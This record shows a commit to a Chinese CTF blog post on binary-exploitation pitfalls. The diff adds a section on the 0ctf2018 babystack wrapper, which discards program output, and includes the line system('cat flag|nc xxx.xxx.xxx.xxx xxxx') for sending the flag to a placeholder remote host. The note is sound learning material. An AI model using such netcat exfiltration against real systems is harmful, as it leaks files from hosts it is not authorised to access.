

Before and after one commit to RhythmMark/RhythmMark.github.io, a Jekyll site: the page built from _posts/2019-04-02-pwn_ood.md, in a window 1280 px wide and 900 px high, scrolled down 874 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2019-04-02-pwn_ood.md

````diff
--- a/_posts/2019-04-02-pwn_ood.md
+++ b/_posts/2019-04-02-pwn_ood.md
@@ -29,6 +29,27 @@ libc不同。感觉这个最常见。
 ``write(fd,*buf,len)``
 
 而``*buf+len``所在地址在64x有在32位没有（还是不可写之类的，whatever）……
+
+## QWQ
+
+输出被重定向
+
+如[0ctf2018的babystack](https://github.com/eternalsakura/ctf_pwn/blob/master/0ctf2018/babystack/pow.py)中
+
+```python
+def exec_serv(name, payload):
+    p = subprocess.Popen(name, stdin=subprocess.PIPE, stdout=file('/dev/null','w'), stderr=subprocess.STDOUT)
+    p.stdin.write(payload)
+    p.wait()
+
+if __name__ == '__main__':
+    proof_of_work()
+    payload = sys.stdin.read(0x100)
+    exec_serv('./babystack', payload)
+```
+
+就无法直接get shell，需要system(“cat flag|nc xxx.xxx.xxx.xxx xxxx”)这样才能get flag
+
 
 # 一个库在这个目录下import没事，在另一个目录不行……的场合
 
````
